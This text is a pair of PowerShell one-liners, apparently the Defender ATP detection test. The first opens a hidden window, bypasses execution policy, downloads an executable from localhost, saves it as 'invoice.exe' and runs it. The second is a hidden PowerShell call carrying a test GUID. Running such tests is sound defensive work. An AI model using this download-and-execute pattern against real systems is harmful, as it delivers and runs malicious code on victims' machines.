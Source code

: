 powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
powershell.exe -NoExit -Command "powershell.exe hidden 12154dfe-61a5-4357-ba5a-efecc45c34c4"
